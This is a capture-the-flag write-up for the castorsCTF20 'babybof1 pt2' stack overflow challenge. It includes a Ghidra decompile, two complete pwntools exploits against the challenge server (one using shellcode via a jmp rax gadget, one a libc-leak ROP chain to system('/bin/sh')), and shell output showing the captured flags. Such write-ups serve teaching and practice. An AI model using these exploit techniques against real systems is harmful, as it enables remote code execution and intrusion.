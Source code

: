 # castorsCTF20

## babybof1 pt2

> 440
>
> Author: Lunga
>
> You should get a shell now!
>
> obs: Same binary as the babybof1, this is correct.
>
> obs2: ASLR is active on the server.
>
> `nc chals20.cybercastors.com 14425`
>
> [`babybof`](babybof)

Tags: _pwn_ _bof_ _x86-64_ _rop_ _shellcode_


## Summary

`gets` + shellcode.  _Hack like it's [1995](https://youtu.be/i8dh9gDzmz8)._


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations.  With RWX, assume shellcode.

    
### Decompile with Ghidra

```c
void main(void)

{
  char local_108 [256];
  
  puts("Welcome to the cybercastors Babybof");
  printf("Say your name: ");
  gets(local_108);
  return;
}
```

This was a two-part pwn, the first flag can be obtained by directing execution to `get_flag`.  The second requires getting a shell (you can get both flags with a shell).

For a shell I tried two different solutions.  The first was to leak libc and then call `system`.  That worked locally, but not remotely.  This CTF was plagued with infrastructure problems, and the pwns had "buffering issues" (see below) that slowly got resolved--AFAIK, the game master only tested one-shot solutions.

From the Ghidra disassembly, `local_108` is `0x108` bytes above the return address:

```
                             undefined __stdcall main(void)
             undefined         AL:1               <RETURN>
             undefined1        Stack[-0x108]:1    local_108
```

Since `gets` is unbounded, just write `0x108` bytes then overwrite the return address with a gadget to jmp/call shellcode.


## Exploit

### Solution 1

```python
#!/usr/bin/python3

from pwn import *

#p = process('./babybof')
p = remote('chals20.cybercastors.com', 14425)

binary = ELF('./babybof')
context.update(arch='amd64',os='linux')

jmp_rax = list(binary.search(asm('jmp rax')))[0]
print("jmp rax",hex(jmp_rax))

payload  = asm(shellcraft.sh()).ljust(0x108,b'A')
payload += p64(jmp_rax)

p.sendline(payload)
p.interactive()
```

After initial setup this code searches for `jmp rax` (`call rax` is fine too) within the binary.  Since no PIE, there's no need to leak the base process address.

_Why `jmp rax`?_

From GDB: Set a breakpoint at `ret` (`b *main+62`), run, and input `AAAABBBBCCCCDDDD`, then notice that `$rax` is set to the address of `local_108`:

```
$rax   : 0x00007fffffffe450  →  "AAAABBBBCCCCDDDD"
$rbx   : 0x0
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffe558  →  0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
$rbp   : 0x0000000000400790  →  <__libc_csu_init+0> push r15
$rsi   : 0x4342424242414141 ("AAABBBBC"?)
$rdi   : 0x00007fffffffe451  →  "AAABBBBCCCCDDDD"
$rip   : 0x000000000040078b  →  <main+62> ret
$r8    : 0x0000000000602681  →  0x0000000000000000
$r9    : 0x00007ffff7fd64c0  →  0x00007ffff7fd64c0  →  [loop detected]
$r10   : 0x0000000000602010  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x0000000000400600  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffe630  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
```

The rest of the code builds a payload from the pwntools shellcraft supplied shellcode and then pads that out to `0x108` bytes.

Output:

```
# ./exploit.py
[+] Opening connection to chals20.cybercastors.com on port 14425: Done
[*] '/pwd/datajerk/castorsctf20/babybof1_pt2/babybof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
jmp rax 0x400661
[*] Switching to interactive mode
$ ls
babybof
flag.txt
shell_flag.txt
$ cat flag.txt
castorsCTF{th4t's_c00l_but_c4n_y0u_g3t_4_sh3ll_n0w?}
$ cat shell_flag.txt
castorsCTF{w0w_U_jU5t_h4ck3d_th15!!1_c4ll_th3_c0p5!11}
```


### Solution 2

```python
#!/usr/bin/python3

from pwn import *

#p = process('./babybof')
p = remote('localhost', 9999)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#p = remote('chals20.cybercastors.com', 14425)
#libc = ELF('libc-database/db/libc6_2.31-0ubuntu9_amd64.so')

'''
# libc-database/find puts 5a0
http://http.us.debian.org/debian/pool/main/g/glibc/libc6_2.30-4_i386.deb (id libc6_2.30-4_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.31-0ubuntu9_amd64.deb (id libc6_2.31-0ubuntu9_amd64)
'''

binary = ELF('./babybof')

context.update(arch='amd64')
rop = ROP('babybof')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Say your name: ')
payload  = 0x108 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['main'])
p.sendline(payload)

_ = p.recvline().strip()
_ = p.recvline().strip()
puts = u64(_ + 2*b'\x00')
print('puts:',hex(puts))
baselibc = puts - libc.symbols['puts']
print('baselibc:',hex(baselibc))

p.recvuntil('Say your name: ')
payload  = 0x108 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b'/bin/sh')))
payload += p64(baselibc + libc.symbols['system'])
p.sendline(payload)

p.interactive()
```

This is normally how I solve many of these problems; usually NX is enabled, and I have so many of these examples laying around it's an easy C&P job.

> See [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for a lengthy description of how the above code works.

> This did not work until much later in the competition when the "buffering issues" were corrected.  Others reported on this as well.


#### Tip: Hosting the binary yourself:

```
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:$PWD/babybof,pty,stderr,setsid,sigint,sane,rawer
```

While I was waiting for the "buffering issues" to be corrected I self-hosted the binary using the above to do the exploit development.  The first part of the exploit did work (the leak), however it was not possible to coordinate the second part until later in the CTF.

> I got tired of waiting, so ended up with the shellcode solution.


#### My $0.02 US

IMHO, the "buffering issue" was a non-issue.  i.e., it was solvable with shellcode without any corrective action.  It was annoying, in that this CTF pwn did not behave like others, but then you just have to find a different solution.  The game masters could have stood their ground, and this isn't the only CTF were I have had this problem (you've seen them too; anywhere you `nc` to the port and nothing is output, no prompt, nothing.  However, the local binary outputs immediately), while this can make exploit development difficult, it does not make it impossible, just different.

